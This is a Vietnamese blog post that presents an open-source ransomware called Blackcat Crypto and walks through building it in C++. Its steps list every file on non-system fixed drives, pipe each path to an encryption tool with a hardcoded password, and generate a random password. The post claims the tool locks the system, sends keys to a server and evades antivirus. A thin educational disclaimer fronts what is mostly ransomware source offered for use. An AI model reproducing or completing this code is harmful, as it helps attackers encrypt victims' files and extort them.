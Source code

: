 ```yaml
---
title: Mã Độc Blackcat Crypto
date: 23/06/2021
layout: single
--- 
```



## Mô Tả 
Khuyến Cáo: Công cụ chỉ mang tính chất giáo dục, không sử dụng các mục đích vi phạm pháp luật, tôi và tác giả của bài viết này sẽ không chịu trách nhiệm với hành động của các bạn với mục đích bất hợp pháp nào Cảm Ơn! 

Blackcat Crypto là Crypto-Locker mã nguồn mở. Blackcat Crypto được phát triển bằng Visual C ++. Nó có các tính năng mã hóa tất cả các tập tin, khóa hệ thống và gửi các khóa trở lại máy chủ. Chức năng đa luồng giúp công cụ này mã hóa nhanh hơn.

Khó có thể bị phát hiện bởi Công cụ chống virus.

Sử dụng thuật toán mã hóa 256-bit mạnh mẽ, Khi một tệp được mã hóa, Tệp sẽ hoàn toàn vô dụng nếu không có mật khẩu. Nó chỉ đơn giản là không thể đọc được [ajayrandhawa/Cryptolocker](https://github.com/ajayrandhawa/Cryptolocker)



## Đặc trưng
1. Mã hóa AES mạnh mẽ.
2. Chức năng hệ thống khóa.
3. Mã hóa đa luồng.


![](https://raw.githubusercontent.com/ajayrandhawa/Cryptolocker/master/ezgif-1-e99b3d2b6b39.gif)
 
## Bước 1 (Fetch files)
Lấy tất cả các tệp từ tất cả các ổ đĩa để mã hóa chúng.

Đây là chương trình Visual C ++ lấy tất cả danh sách thư mục & tệp trong ổ đĩa và lưu trữ đường dẫn trong tệp văn bản để mã hóa sử dụng sau này. Tôi sử dụng thư viện Boost C ++ để lấy danh sách tất cả các tệp. Trước tiên hãy thiết lập thư viện Boost để biên dịch chương trình.

![Language](https://img.shields.io/badge/Lang-c++-blue.svg)

```cpp
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

    int dr_type = 99;
    char dr_avail[MAX];
    char *temp = dr_avail;

    /* 1st we fill the buffer */
    GetLogicalDriveStrings(MAX, dr_avail);
    while (*temp != NULL) { // Split the buffer by null
        dr_type = GetDriveType(temp);

        char skip[10] = "C:\\";

        if (dr_type == 3 && temp[0] != 'C') {

            boost::system::error_code dir_error;

            for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
                if (dir_error.value()) {
                    cerr << "Error accessing file: " << dir_error.message() << endl;
                }
                else {
                    cout << dir->path() << endl;
                    out_file << dir->path() << "\n";
                }
            }
        }
        temp += lstrlen(temp) + 1;
    }
    out_file.close();
    system("pause");
```

## Bước 2 (Encrypt files)
Trước tiên,  lấy từng đường dẫn tệp từ "data.txt" và gửi tới công cụ crypy này với mã hóa kiểu và mật khẩu. bạn cũng có thể nhúng tất cả chương trình này vào vòng lặp trên để lấy đường dẫn và mã hóa dữ liệu một cách đệ quy.

```cpp
out_file.open("data.txt", ios::in);
    string line;
    while (out_file.good()) {
        getline(out_file, line);
        cout << line << endl;
        std::string cmmd = "crpt.exe -e -p 4321 ";
        cmmd += line;
        system(cmmd.c_str());
    }

```
## Bước 3 (Create Long String Complex Password Function)
Gửi độ dài đến hàm và hàm trả về mật khẩu phức tạp dài được tạo mà bạn có thể sử dụng để mã hóa.
```cpp
string RandomString(int len)
{
    srand(time(0));
    string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    string newstr;
    int pos;
    while (newstr.size() != len) {
        pos = ((rand() % (str.size() - 1)));
        newstr += str.substr(pos, 1);
    }
    return newstr;
}

```

## Bài viết được chia sẻ bởi tác giả [ajayrandhawa](https://github.com/ajayrandhawa/)

## Chúc may mắn :D

